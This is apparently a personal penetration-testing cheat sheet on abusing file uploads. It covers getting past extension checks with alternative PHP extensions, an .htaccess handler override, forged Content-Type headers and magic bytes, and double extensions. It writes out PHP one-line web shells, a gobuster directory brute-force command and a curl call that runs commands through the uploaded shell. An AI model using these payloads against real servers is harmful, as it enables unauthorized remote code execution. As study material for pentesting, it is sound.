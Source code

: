 # File Upload Abuse
- Where the extension validation is doing **SEVER** or **CLIENT** (ctrl+u).
- You could use [PHP-alternative-extensions](https://book.hacktricks.xyz/pentesting-web/file-upload) to use php5, pht rather than php.
-  .htaccess file upload bypass -> *.bypass* files will be interpreted as .php.
	```txt
	AddType application/x-httpd-php .bypass
	```
	![[Pasted image 20230823161215.png]]
- Change variables like, **MAX_FILE_SIZE**.
- Replace `<?php system($_GET[0]);?>` by ``<?=`$_GET[0]`?>``.
- Replace **Content-Type** -> *application/x-php* by *image/jpg* or *image/gif*.
- Change *magic numbers* of the file [List-of-Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) -> insert `GIF8;` for gif file.
- Is the web making a encryption on the *file name* (even .php)? -> **md5**? **sha1**? (verify the number of characters of the hash) `locate \*sum`.
- Is the web making a encryption on the *file content*? -> **md5**? **sha1**? (verify the number of characters of the hash) `sha1sum <FILE>`.
- Web is storing the file in another **directory** -> *brute force*.
	```shell
	gobuster dir -u <URL> -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
	```
- Use a **double extension attack** -> cmd.jpg.php.
- Use curl.
	```shell
	curl -s -X GET "<URL>" -G --data-urlencode "cmd=hostname -I"  
	```
	- `-G --data-urlencode`: GET and data urlencode.
